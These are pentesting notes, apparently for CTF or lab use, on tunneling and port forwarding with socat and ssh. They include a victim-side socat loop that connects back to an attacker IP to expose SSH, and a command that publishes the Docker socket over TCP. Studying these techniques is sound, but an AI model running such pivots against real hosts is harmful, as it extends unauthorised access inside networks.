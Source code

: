 # Tunneling
[https://book.hacktricks.xyz/generic-methodologies-and-resources/tunneling-and-port-forwarding](https://book.hacktricks.xyz/generic-methodologies-and-resources/tunneling-and-port-forwarding) 

To find running services on the victim machine, run `ss -tulwn`

For forwarding an internal port to externel connection, 90% of what normally is needed, do this

```text-plain
./socat tcp-l:2222,fork,reuseaddr tcp:127.0.0.1:3306
```

`socat -d -d OPENSSL-LISTEN:4443,cert=thm-reverse.pem,verify=0,fork STDOUT`

If you are not familiar with `socat`, the options that we used are:

*   `-d -d` provides some debugging data (fatal, error, warning, and notice messages)
*   `OPENSSL-LISTEN:PORT_NUM` indicates that the connection will be encrypted using OPENSSL
*   `cert=PEM_FILE` provides the PEM file (certificate and private key) to establish the encrypted connection
*   `verify=0` disables checking peer’s certificate
*   `fork` creates a sub-process to handle each new connection.

For forwarding a local port use   
`socat tcp-l:2222,fork,reuseaddr tcp:10.17.17.11:22`

```text-plain
attacker> socat TCP4-LISTEN:443,reuseaddr,fork TCP4-LISTEN:2222,reuseaddr #Redirect port 2222 to port 443 in localhost 

victim> while true; do socat TCP4:10.17.17.11:443 TCP4:127.0.0.1:22 ; done # Establish connection with the port 443 of the attacker and everything that comes from here is redirected to port 22 

attacker> ssh localhost -p 2222 -l www-data -i vulnerable #Connects to the ssh of the victim
```

We can see that a service running on port 10000 is blocked via a firewall rule from the outside (we can see this from the IPtable list). However, Using an SSH Tunnel we can expose the port to us (locally)!

From our local machine, run **ssh -L 10000:localhost:10000 <username>@<ip>**

 **ss -tulpn shows local services connected to the victim machine**  
`# on target machine`  
`# get a port to communicate with the socket file`  
`socat tcp-l:3275,fork,reuseaddr unix-connect:/var/run/docker.sock &!`  
  
  
`# on your system`  
`# use docker`  
`docker -H :3275 ...`